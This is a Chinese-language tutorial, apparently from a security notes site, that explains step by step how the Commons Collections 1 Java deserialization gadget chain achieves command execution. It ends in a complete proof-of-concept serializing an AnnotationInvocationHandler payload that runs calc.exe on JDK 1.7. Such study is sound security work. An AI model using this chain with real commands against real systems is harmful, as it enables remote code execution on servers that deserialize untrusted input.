

前一篇讲了[Commons Collections1的前置知识](https://www.yuque.com/da-labs/secnotes/dzakgq)，三要素有`payload`，`反序列化利用链`，`可重写的readObject方法`
## 重构POC
首先明确最终目的是要执行命令，也就是说执行`Runtime.getRuntime.exec("")`

- Runtime.getRuntime：获取一个Runtime实例
- exec：调用实例的exec函数

因为漏洞函数最后是通过反射机制调用任意这个语句先转化成反射机制如下（后面需要用到）：
```java
Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc.exe")
```
### InvokerTransformer
回看反射机制触发函数`InvokerTransformer`类的`transform(Object input)`
```java
public Object transform(Object input) {
    Class cls = input.getClass();
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```
通过构造反射机制以及以上代码进行填空，可以得出当变量等于以下值，可以形成命令执行
```java
// Object input
input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
this.iMethodName = "exec"; 
this.iParamTypes = String.class;
this.iArgs = "calc.exe";
```
那么在`InvokerTransformer`类源码中我们可以找到赋值
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}
```
我们就可以构建以下测试代码直接调用InvokerTransformer通过反射执行任意命令：
下面开始试一下：
```java
package com.myproject;
import org.apache.commons.collections.functors.InvokerTransformer;


public class test {

    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class},new Object[]{"calc.exe"});
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        invokerTransformer.transform(input);
    }
}
```

在这里执行了命令，然后我们再来模拟一下利用情景

- 为了方便，攻击者受害者写在同一函数
- 使用文件写入，代替网络传输

**由于InvokerTransformer继承了Serializable类，是可以成功序列化的**

再来尝试一下，使用IO操作，模拟网络IO操作
```java
package com.myproject;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;

public class test {

    public static void main(String[] args) throws Exception {
        //1.客户端构造序列化payload，使用写入文件模拟发包攻击
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class},new Object[]{"calc.exe"});
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(invokerTransformer);
        //2.服务端从文件中读取payload模拟接受包，然后触发漏洞
        //服务端反序列化payload读取
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
         //神奇第一处：服务端需要自主构造恶意input
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        //神奇第二处：服务端需要将客户端输入反序列化成InvokerTransformer格式，并在服务端自主传入恶意参数input
        InvokerTransformer invokerTransformer_in = (InvokerTransformer) objectInputStream.readObject();
        invokerTransformer_in.transform(input);
    }
}
```

在此时我们会发现如果我们要利用这个反射机制作为漏洞的话，需要开发人员帮助我们做以下事儿：

1. 写一个payload作为input
2. 接收客户端输入的参数，反序列化成InvokerTransformer类
3. 再刻意调用InvokerTransformer的transform函数

这种是根本行不通的，所以就面临一些问题：

1. payload需要再客户端可以自定义构造，再传入服务端
2. 服务端需要把我们传入的exp反序列化成一个在代码中可能使用到的类
3. 代码在正常操作中会调用这个类中一个可触发漏洞的函数（当然这个函数最后会进入到InvokerTransformer类的transform函数，从而形成命令执行）
4. 如果这个反序列化的类和这个类触发命令执行的方法可以在一个readObject复写函数中恰好触发，那么就对服务端上下文没有要求了！

**假设如预期这样，是对服务端上下文没有要求，因为只要执行readObject就肯定会命令执行，不需要其他上下文，但是对于服务端版本环境是有要求的（JDK1.7）**
### ChainedTransformer
关注** ChainedTransformer** 类，首先看以下这个类的描述
```java
/**
 * Transformer implementation that chains the specified transformers together.
 * <p>
 * The input object is passed to the first transformer. The transformed result
 * is passed to the second transformer and so on.
 * 
 * @since Commons Collections 3.0
 * @version $Revision: 1.7 $ $Date: 2004/05/16 11:36:31 $
 *
 * @author Stephen Colebourne
 */
public class ChainedTransformer implements Transformer, Serializabl{}
```
这个类会把我们的Transformer变成一个串，再逐一执行，其中这个操作对应就是[Commons Collections1的前置知识](https://www.yuque.com/da-labs/secnotes/dzakgq)中说的**ChainedTransformer.transform**函数
```java
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```
在这里会遍历iTransformers数组，依次调用这个数组中每一个Transformer的transform，并串行传递执行结果
首先确定iTransformers可控，iTransformers数组是通过**ChainedTransformer**类的构造函数赋值的
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
```
那么可以知道的是，可以自定义iTransformers的内容，已有如下条件
```java
// 最终执行目标
Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc.exe");
// InvokeTransformer关键语句
public Object transform(Object input) {
    Class cls = input.getClass();
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```
在看到**InvokeTransformer**代码的时候，我们需要引出一个注意点：
这里需要注意`input.getClass()`这个方法使用上的一些区别

- 当input是一个类的**实例对象，**获取到的是这个类
- 当input是一个类时，获取到的是`java.lang.Class`

验证如下
```java
Object a = Runtime.getRuntime();
Class b = Runtime.class;
System.out.println(a.getClass());
System.out.println(b.getClass());
//结果
//class java.lang.Runtime
//class java.lang.Class
```
基于之前写的代码
```java
InvokerTransformer a = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new String[]{"calc.exe"});

    Object input=Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
```
我们可以知道input为Runtime类的对象，所以cls就是Runtime类，所以cls.getMethod可以找到exec方法，直接调用
首先将a封装成ChainedTransformer格式，但是payload还在外面
```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        chainedTransformer.transform(input);
    }
}
```

这里其实就是对如下的还原
```java
Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc.exe");
```
把payload放入Transformer数组中，需要转化成特定的Transformer格式才行
#### ConstantTransformer
在ConstantTransformer类中它同样继承了Transformer，可以看到它的transform函数是会返回`this.iConstant`，然而`this.iConstant`在构造函数中是等于我们传入的值，也就是说构造函数会写入这个变量，它的transform函数又会返回这个变量
```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}
```
所以我们可以把Runtime的实例写入到这个变量中
```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            // new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null); // 此处输入可以为任意值，因为不会被使用到，因为Runtime实例被我们写入了this.iTransformers数组中
    }
}
```


那么模拟以下序列化与反序列化的过程
```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        // 客户端序列化写成文件
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(transformerChain);
        // 服务端反序列化payload 读取
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        //服务端反序列化成ChainedTransformer格式，并在服务端自主传入恶意参数input
        Transformer transformer = (ChainedTransformer) objectInputStream.readObject();
        transformer.transform(null);
    }
}
```
但是很遗憾的告诉以为快要成功的你，成功的本地测试加上序列化、反序列化过程之后就会失败。
因为Runtime类的定义没有继承`Serializable`类，所以是不支持反序列化的。

那么我们在payload写入Runtime实例的计划就泡汤了
#### 在服务端生成Runtime实例
既然我们没法在客户端序列化写入Runtime的实例，那就让服务端执行我们的命令生成一个Runtime实例呗？
我们知道Runtime的实例是通过`Runtime.getRuntime()`来获取的，而`InvokerTransformer`里面的反射机制可以执行任意函数。
同时，我们已经成功执行过Runtime类里面的exec函数。讲道理肯定是没问题的。
我们先看getRuntime方法的参数
```java
public static Runtime getRuntime() {
    return currentRuntime;
}
```
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),//得到Runtime class
    //由于InvokerTransformer的构造函数要求传入Class类型的参数类型，和Object类型的参数数值，所以封装一下，下面也一样
    //上面传入Runtime.class，调用Runtime class的getRuntime方法（由于是一个静态方法，invoke调用静态方法，传入类即可）
    new InvokerTransformer("getRuntime",new Class[]{},new Object[]{}),
    //上面Runtime.getRuntime()得到了实例，作为这边的输入(invoke调用普通方法，需要传入类的实例)     
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
transformerChain.transform(null);
```
看起来万事大吉了，但是

在对InvokerTransformer中`Class cls = input.getClass();` 的解释中可以知道

- 当input是一个类的**实例对象，**获取到的是这个类
- 当input是一个类时，获取到的是`java.lang.Class`

我们来推演第一次InvokerTransformer的反射调用，即得到Runtime类对象的getRuntime方法调用
```java
//InvokeTransformer关键语句：
public Object transform(Object input) {//input为我们设置的常量Runtime.class
    Class cls = input.getClass();//这里由于input是一个类，会得到java.lang.Class
    //在java.lang.Class类中去寻找getRuntime方法企图得到Runtime类对象，此处报错
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```
那么我们好像陷入了一个死胡同：
**得到Runtime类实例才能调用exec方法。**
而得到Runtime类实例作为input，才能得到Runtime class，才能找到getRuntime方法，得到Runtime类实例.........
#### 继续反思反射机制
那么我们通过直接调用Runtime.getRuntime方法好像是行不通了,有没有其他方法呢？
目前问题有如下：

1. 我们开头不能获得Class.forName("java.lang.Runtime")，只能得到Class.forName("java.lang.Class")
2. 我们可以有任意的反射机制
3. 我们要获取到Runtime.getRunime函数，并执行它。
4. 通过反射机制获取反射机制中的getMethod类，由于getMethod类是存在Class类中，就符合开头Class类的限制
5. 通过getMethod函数获取Runtime类中的getRuntime函数
- 在哪个类中调用getMethod去获取方法，实际上是由invoke函数里面的的第一个参数obj决定的
6. 再通过反射机制获取反射机制中的invoke类，执行上面获取的getRuntime函数
7. invoke调用getRuntime函数，获取Runtime类的实例
- 这里在使用反射机制调用getRuntime静态类时，invoke里面第一个参数obj其实可以任意改为null，或者其他类，而不一定要是Runtime类

我们最终要目的要执行
```java
Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")
```
先来获取getRuntime类
```java
//目标语句
Class.forName("java.lang.Runtime").getMethod("getRuntime")
//使用java.lang.Class开头
Class.forName("java.lang.Class").getMethod("getMethod", new Class[] {String.class, Class[].class })
        .invoke(Class.forName("java.lang.Runtime"),"getRuntime",new Class[0]);
        //invoke函数的第一个参数是Runtime类，我们需要在Runtime类中去执行getMethod，获取getRuntime参数
```
对照着InvokerTransformer类转变为transformers格式
```java
Class cls = input.getClass();//cls = java.lang.Class
Method method = cls.getMethod(this.iMethodName, this.iParamTypes); //getMethod方法
return method.invoke(input, this.iArgs); //在Runtime中找getRuntime方法，并返回这个方法
```
```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
       //还需要填充 调用getRuntime得到Runtime实例,
        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
};
```
还差执行获取到的getRuntime，下一个input是上一个执行接口，继续对照
```java
//input=getRuntime这个方法
Class cls = input.getClass();//cls = java.lang.Method（getRuntime方法是method类）
Method method = cls.getMethod(this.iMethodName, this.iParamTypes); //在method类中找到invoke方法，method=invoke方法
return method.invoke(input, this.iArgs); //调用invoke方法，input=getRuntime这个方法，传入自定义的参数
```
以上最后一步有点复杂，method就是invoke方法，相当于使用invoke调用了invoke函数。
首先this.iMethodName, this.iParamTypes是根据invoke接口而定的：
```java
public Object invoke(Object obj, Object... args)
//this.iMethodName="invoke"
//this.iParamTypes=new Class[] {Object.class, Object[].class }
//外面class、Object封装是InvokerTransformer类的构造函数要求
```
按照invoke中的input才是它要调用的环境的准则。
invoke方法.invoke(input, this.iArgs)实际上等于input.invoke(this.iArgs)，
而input=getRuntime方法，那么只要填入this.iArgs就好了
又由于getRuntime是个静态函数，不用太纠结输入obj，写作null。getRuntime方法不需要参数。
this.iArgs=null,new Object[0]
那么整合如下：
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
};
```
也就是我们[Commons Collections1的前置知识](https://www.yuque.com/da-labs/secnotes/dzakgq)里讲的payload，到了这里才讲到为什么构造前置知识中的payload
### TransformedMap
那么我们在第二步通过ConstantTransformer、ChainedTransformer就完成了**payload在客户端自定义**这一目标，我们看一下目前的攻击流程
```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(transformerChain);
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Transformer transformer = (ChainedTransformer) objectInputStream.readObject();
        transformer.transform(null);
    }
}
```


完成命令执行服务端执行如下操作：

1. 服务端反序列化我们的输入成**ChainedTransformer**类型
2. 调用这个输入的transform()函数

转变的类型是一个数据转化链数据格式，很明显服务端不可能存在这种代码，利用价值不足，接下来我们需要继续延长这个漏洞链。
#### 封装成Map
由于我们得到的是ChainedTransformer，一个转换链，**TransformedMap**类提供将map和转换链绑定的构造函数，只需要添加数据至map中就会自动调用这个转换链执行payload。
这样我们就可以把触发条件从显性的调用**转换链的transform函数**延伸到**修改map的值**。很明显后者是一个常规操作，极有可能被触发
**TransformedMap**
```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //payload序列化写入文件，模拟网络传输
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(outerMap);

        // 服务端反序列化客户端代码，触发漏洞
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        //服务端反序列化成Map格式，再调用transform函数
        Map outerMap_now = (Map) objectInputStream.readObject();
        //2.1可以直接map添加新值，触发漏洞
        outerMap_now.put("123", "123");
        //2.2也可以获取map键值对，修改value，value为value，foobar,触发漏洞
//        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
//        onlyElement.setValue("foobar");
    }
}
```

### jdk1.7 AnnotationInvocationHandler的readObject复写点
上面的漏洞触发条件仍然不够完美，需要服务端把我们传入的序列化内容反序列化为map，并对值进行修改。
之前也说过完美的反序列化漏洞还需要一个readobject复写点，只要服务端执行了readObject函数就等于命令执行。
在jdk1.7中就存在一个完美的readobject复写点的类`sun.reflect.annotation.AnnotationInvocationHandler`。
先看对应的构造函数
```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {//var1满足这个if条件时
        this.type = var1;//传入的var1到this.type
        this.memberValues = var2;//我们的map传入this.memberValues
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```
readobject复写函数
```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        //默认反序列化
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();//
        Iterator var4 = this.memberValues.entrySet().iterator();//获取我们构造map的迭代器

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();//遍历map迭代器
            String var6 = (String)var5.getKey();//获取key的名称
            Class var7 = (Class)var3.get(var6);//获取var2中相应key的class类？这边具体var3是什么个含义不太懂，但是肯定var7、8两者不一样
            if (var7 != null) {
                Object var8 = var5.getValue();//获取map的value
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    //两者类型不一致，给var5赋值！！具体赋值什么已经不关键了！只要赋值了就代表执行命令成功
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
}
```
readObject最终对于我们传入构造函数的map进行遍历赋值。
这样就弥补了我们之前反序列化需要服务端存在一些条件的不足，形成完美反序列化攻击
最终模拟攻击代码
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Target.class,outerMap);
        //payload序列化写入文件，模拟网络传输
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(object);

        // 服务端反序列化客户端代码，触发漏洞
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        // 直接反序列化
        objectInputStream.readObject();
    }
}
```

至此，我们在客户端构造了payload发送至服务端，
只要服务端

1. 对我们的输入进行反序列化
2. jdk版本为1.7

就可以直接完成命令执行
## 问题
为什么`innerMap.put("value", "value");`将key更改为其他值，就不能执行成功？(`innerMap.put("key", "value");`这种格式)
debug一下看看
在readObject中，`var3`是一个map结构，`var6` 会获取我们构造的map中的key值，然后通过key值取`var3`中的class，如果`var6`!=value，那么`var7`为空，不能进入if结构，导致不能进行setValue操作（也就是反序列化赋值操作），所以在这里需要将值固定为键值设置为`value`


## 参考链接
[https://xz.aliyun.com/t/7031](https://xz.aliyun.com/t/7031)

